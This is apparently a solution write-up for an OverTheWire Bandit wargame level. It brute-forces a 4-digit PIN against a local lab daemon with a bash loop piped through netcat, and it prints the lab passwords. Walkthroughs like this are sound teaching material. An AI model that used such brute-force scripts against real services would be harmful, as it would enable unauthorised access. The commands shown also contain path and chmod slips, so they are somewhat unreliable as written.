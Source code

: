 <h1>Bandit 24 &#x2192; Bandit 25 </h1>

<h2 id="level-goal">Level Goal</h2>
<p>A daemon is listening on port 30002 and will give you the password for
bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000
combinations, called brute-forcing.</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit24@bandit.labs.overthewire.org -p 2220
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1111
Wrong! Please enter the correct pincode. Try again.
^C
```

Let's make a script that automatically tries all combinations.

```
bandit24@bandit:~$ mkdir /tmp/scripts/
bandit24@bandit:~$ vim /tmp/myscripts/runme.sh
  1 #!/bin/bash
  2 for i in {0000..9999}; do
  3     echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ" $i >> /tmp/myscripts/combinations.txt
  4 done
bandit24@bandit:~$ chmod -x /tmp/myscripts/runme.sh
bandit24@bandit:~$ touch /tmp/myscripts/combinations.txt
bandit24@bandit:~$ ls /tmp/myscripts/
combinations.txt  runme.sh
bandit24@bandit:~$ bash /tmp/myscripts/runme.sh
bandit24@bandit:~$ cat /tmp/myscripts/combinations.txt | nc localhost 30002
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

[bandit level 24](24.md)
	[bandit level 26](26.md)
